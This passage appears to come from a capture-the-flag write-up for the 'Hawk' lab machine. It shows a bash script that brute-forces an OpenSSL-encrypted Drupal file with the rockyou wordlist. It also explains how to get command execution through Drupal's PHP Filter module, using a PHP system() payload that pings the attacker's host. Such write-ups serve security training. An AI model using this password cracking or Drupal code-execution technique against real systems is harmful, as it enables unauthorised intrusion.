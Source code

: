 > **brute_force_ssl.sh**

```bash
#!/bin/bash

function ctrl_c(){
  echo -e "\n\n[!] Exiting ...\n"
  tput cnorm; exit 1
}

# Ctrl+c
trap ctrl_c INT

tput civis
for password in $(cat /usr/share/wordlists/rockyou.txt); do
  openssl aes-256-cbc -d -in drupal.encrypted -out drupal.decrypted -k $password &>/dev/null

  if [ "$(echo $?)" == "0" ]; then
    echo -e "\n[+] The password is $password\n"
    exit 0
  fi
done
tput cnorm
```

<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_09.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_10.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_11.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_12.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

If I try accessing the **Drupal Administration Panel** with the credentials I obtained, and I can start researching vulnerabilities that I can exploit in this **CMS**. One of my favorite resources explains in detail how to execute commands on the victim machine, **[Drupal-HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal){:target="_blank"}**. I just have to enable the **PHP Filter** module and then create a new **Content** (**Article**, **Basic Page**) with the malicious command, choose the **PHP Code** format and preview. I test by sending me a packet with `ping` from the victim's machine and I receive the connection on my host.

```php
<?php system('ping -c 1 10.10.14.15'); ?>
```

```bash
tcpdump -i tun0 icmp -n
```
